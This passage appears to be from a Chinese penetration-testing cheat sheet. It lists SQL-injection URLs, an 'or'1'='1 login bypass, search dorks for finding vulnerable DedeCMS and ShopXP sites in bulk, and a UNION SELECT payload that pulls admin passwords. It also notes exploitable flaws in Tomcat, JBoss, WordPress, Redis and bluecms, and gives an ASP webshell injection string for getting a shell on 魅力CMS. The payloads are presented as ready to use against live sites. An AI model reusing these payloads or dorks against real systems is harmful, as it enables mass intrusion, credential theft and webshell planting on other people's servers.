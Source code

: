#### 4. 注入地址

- down/class/index.php?myord=1
- news/class/index.php?showtag=
- 万能密钥 admin 'or'1'='1

#### 5. 批量
搜索关键字：

- Powered by DedeCMS_V57_UTF8_SP1 2004-2011 DesDev Inc
- inurl:shopxp_news.asp
- TEXTBOX2.ASP?action=modify&news%69d=122%20and%201=2%20union%20select%201,2,admin%2password,4,5,6,7%20from%20shopxp_admin



## 0x06 常见CMS漏洞或其他漏洞

#### 1. bluecms v1.6

- ad_js.php sql注入
- http头注入
- 编辑文件时文件包含
- 宽字节注入

#### 2. tomcat

- 8009端口ajp漏洞
- manage.html文件包含漏洞

#### 3. jboss

- 命令执行RCE

#### 4. wordpress

- 外观（主题）编辑getshell

#### 5. redis 4.x/5.x

- RCE远程命令执行

https://github.com/Ridter/redis-rce    需要python3.6版本以上，将input改为raw_input可以用python2.7运行

#### 7. 魅力CMS

- 后台模板设置管理公司名称注入%><%eval request(cmd)，保存后可以访问http://xxx.com/inc/config.asp处可以getshell



## 0x07 逻辑漏洞

#### 1. 简介

逻辑漏洞挖掘一直是安全测试中“经久不衰”的话题。相比SQL注入、XSS漏洞等传统安全漏洞，现在的攻击者更倾向于利用业务逻辑层的应用安全问题，这类问题往往危害巨大，可能造成了企业的资产损失和名誉受损，并且传统的安全防御措施收效甚微。
